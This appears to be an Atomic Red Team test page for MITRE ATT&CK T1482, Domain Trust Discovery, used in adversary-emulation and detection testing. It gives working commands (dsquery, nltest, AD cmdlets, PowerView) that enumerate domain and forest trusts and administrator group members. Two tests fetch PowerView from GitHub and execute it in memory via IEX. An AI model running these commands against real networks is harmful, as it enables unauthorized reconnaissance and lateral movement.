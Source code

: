 # T1482 - Domain Trust Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1482)
<blockquote>Adversaries may attempt to gather information on domain trust relationships that may be used to identify lateral movement opportunities in Windows multi-domain/forest environments. Domain trusts provide a mechanism for a domain to allow access to resources based on the authentication procedures of another domain.(Citation: Microsoft Trusts) Domain trusts allow the users of the trusted domain to access resources in the trusting domain. The information discovered may help the adversary conduct [SID-History Injection](https://attack.mitre.org/techniques/T1134/005), [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003), and [Kerberoasting](https://attack.mitre.org/techniques/T1558/003).(Citation: AdSecurity Forging Trust Tickets)(Citation: Harmj0y Domain Trusts) Domain trusts can be enumerated using the `DSEnumerateDomainTrusts()` Win32 API call, .NET methods, and LDAP.(Citation: Harmj0y Domain Trusts) The Windows utility [Nltest](https://attack.mitre.org/software/S0359) is known to be used by adversaries to enumerate domain trusts.(Citation: Microsoft Operation Wilysupply)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Discover domain trusts with dsquery](#atomic-test-1---windows---discover-domain-trusts-with-dsquery)

- [Atomic Test #2 - Windows - Discover domain trusts with nltest](#atomic-test-2---windows---discover-domain-trusts-with-nltest)

- [Atomic Test #3 - Powershell enumerate domains and forests](#atomic-test-3---powershell-enumerate-domains-and-forests)

- [Atomic Test #6 - Get-DomainTrust with PowerView](#atomic-test-6---get-domaintrust-with-powerview)

- [Atomic Test #7 - Get-ForestTrust with PowerView](#atomic-test-7---get-foresttrust-with-powerview)


<br/>

## Atomic Test #1 - Windows - Discover domain trusts with dsquery
Uses the dsquery command to discover domain trusts.
Requires the installation of dsquery via Windows RSAT or the Windows Server AD DS role.

**Supported Platforms:** Windows


**auto_generated_guid:** 4700a710-c821-4e17-a3ec-9e4c81d6845f






#### Attack Commands: Run with `command_prompt`! 


```cmd
dsquery * -filter "(objectClass=trustedDomain)" -attr *
```






<br/>
<br/>

## Atomic Test #2 - Windows - Discover domain trusts with nltest
Uses the nltest command to discover domain trusts.
Requires the installation of nltest via Windows RSAT or the Windows Server AD DS role.
This technique has been used by the Trickbot malware family.

**Supported Platforms:** Windows


**auto_generated_guid:** 2e22641d-0498-48d2-b9ff-c71e496ccdbe






#### Attack Commands: Run with `command_prompt`! 


```cmd
nltest /domain_trusts
nltest /trusted_domains
```




#### Dependencies:  Run with `command_prompt`!
##### Description: nltest.exe from RSAT must be present on disk
##### Check Prereq Commands:
```cmd
WHERE nltest.exe >NUL 2>&1
```
##### Get Prereq Commands:
```cmd
echo Sorry RSAT must be installed manually
```




<br/>
<br/>

## Atomic Test #3 - Powershell enumerate domains and forests
Use powershell to enumerate AD information.
Requires the installation of PowerShell AD admin cmdlets via Windows RSAT or the Windows Server AD DS role.

**Supported Platforms:** Windows


**auto_generated_guid:** c58fbc62-8a62-489e-8f2d-3565d7d96f30






#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
Get-NetDomainTrust
Get-NetForestTrust
Get-ADDomain
Get-ADGroupMember Administrators -Recursive
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```




#### Dependencies:  Run with `powershell`!
##### Description: PowerView PowerShell script must exist on disk
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PowerView.ps1"
```
##### Description: RSAT PowerShell AD admin cmdlets must be installed
##### Check Prereq Commands:
```powershell
if ((Get-Command "Get-ADDomain" -ErrorAction Ignore) -And (Get-Command "Get-ADGroupMember" -ErrorAction Ignore)) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "Sorry RSAT must be installed manually"
```




<br/>
<br/>


## Atomic Test #6 - Get-DomainTrust with PowerView
Utilizing PowerView, run Get-DomainTrust to identify domain trusts. Upon execution, progress and info about trusts within the domain being scanned will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** f974894c-5991-4b19-aaf5-7cc2fe298c5d






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainTrust -Verbose
```






<br/>
<br/>

## Atomic Test #7 - Get-ForestTrust with PowerView
Utilizing PowerView, run Get-ForestTrust to identify forest trusts. Upon execution, progress and info about forest trusts within the domain being scanned will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 58ed10e8-0738-4651-8408-3a3e9a526279






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-ForestTrust -Verbose
```






<br/>
<br/>



<br/>
